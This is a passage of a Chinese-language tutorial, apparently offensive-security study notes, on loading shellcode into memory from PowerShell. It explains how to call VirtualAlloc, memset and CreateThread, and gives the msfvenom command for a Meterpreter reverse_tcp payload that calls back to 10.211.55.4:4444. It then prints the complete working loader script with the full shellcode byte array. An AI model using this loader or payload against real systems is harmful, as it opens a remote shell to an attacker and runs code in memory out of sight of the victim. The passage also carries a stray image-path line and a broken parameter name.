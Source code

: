 脚本首先从kernel32.dll导入VirtualAlloc和CreateThread，然后从msvcrt.dll中导入memset. 这些函数将允许我们分配内存，创建一个执行线程，并分别向分配的内存写入任意数据。再次注意，我们正在分配内存并在当前进程（powershell.exe）中执行一个新线程。

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1606286266969-a731360c-7734-4682-8213-56bdae0f10dc.png)

然后，脚本使用VirtualAlloc分配内存块，获取存储在$sc 字节数组中的有效负载的每个字节，并使用memset将其写入新分配的内存块：

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1606286298320-5b8695d4-f28d-4cdb-ac23-4c3a083cf688.png)

最后一步，使用CreateThread在单独的线程中执行内存中写入的有效负载。

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1606286318877-fb7d5459-8f72-46cf-96e5-6076e66d8697.png)

脚本中缺少我们选择的有效负载，它可以使用msfvenom生成。为了保持一致性，我们将保持有效载荷与先前测试中使用的负载相同：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.211.55.4 LPORT=4444 -f powershell
```

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1606286480753-ba52c188-4c3e-416e-91bd-430dc43065fe.png)

根据脚本的要求，从msfvenom生成的$buf变量重命名为$sc后，可以将结果输出复制到最终脚本中。我们的完整脚本如下所示：

```
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocat ionType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = 0xfc,0xe8,0x82,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0x8b,0x72,0x28,0xf,0xb7,0x4a,0x26,0x31,0xff,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0xc1,0xcf,0xd,0x1,0xc7,0xe2,0xf2,0x52,0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x1,0xd1,0x51,0x8b,0x59,0x20,0x1,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,0x1,0xd6,0x31,0xff,0xac,0xc1,0xcf,0xd,0x1,0xc7,0x38,0xe0,0x75,0xf6,0x3,0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x1,0xd3,0x66,0x8b,0xc,0x4b,0x8b,0x58,0x1c,0x1,0xd3,0x8b,0x4,0x8b,0x1,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,0x8d,0x5d,0x68,0x33,0x32,0x0,0x0,0x68,0x77,0x73,0x32,0x5f,0x54,0x68,0x4c,0x77,0x26,0x7,0x89,0xe8,0xff,0xd0,0xb8,0x90,0x1,0x0,0x0,0x29,0xc4,0x54,0x50,0x68,0x29,0x80,0x6b,0x0,0xff,0xd5,0x6a,0xa,0x68,0xa,0xd3,0x37,0x4,0x68,0x2,0x0,0x11,0x5c,0x89,0xe6,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,0xea,0xf,0xdf,0xe0,0xff,0xd5,0x97,0x6a,0x10,0x56,0x57,0x68,0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0xa,0xff,0x4e,0x8,0x75,0xec,0xe8,0x67,0x0,0x0,0x0,0x6a,0x0,0x6a,0x4,0x56,0x57,0x68,0x2,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x0,0x7e,0x36,0x8b,0x36,0x6a,0x40,0x68,0x0,0x10,0x0,0x0,0x56,0x6a,0x0,0x68,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x93,0x53,0x6a,0x0,0x56,0x53,0x57,0x68,0x2,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x0,0x7d,0x28,0x58,0x68,0x0,0x40,0x0,0x0,0x6a,0x0,0x50,0x68,0xb,0x2f,0xf,0x30,0xff,0xd5,0x57,0x68,0x75,0x6e,0x4d,0x61,0xff,0xd5,0x5e,0x5e,0xff,0xc,0x24,0xf,0x85,0x70,0xff,0xff,0xff,0xe9,0x9b,0xff,0xff,0xff,0x1,0xc3,0x29,0xc6,0x75,0xc1,0xc3,0xbb,0xf0,0xb5,0xa2,0x56,0x6a,0x0,0x53,0xff,0xd5;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```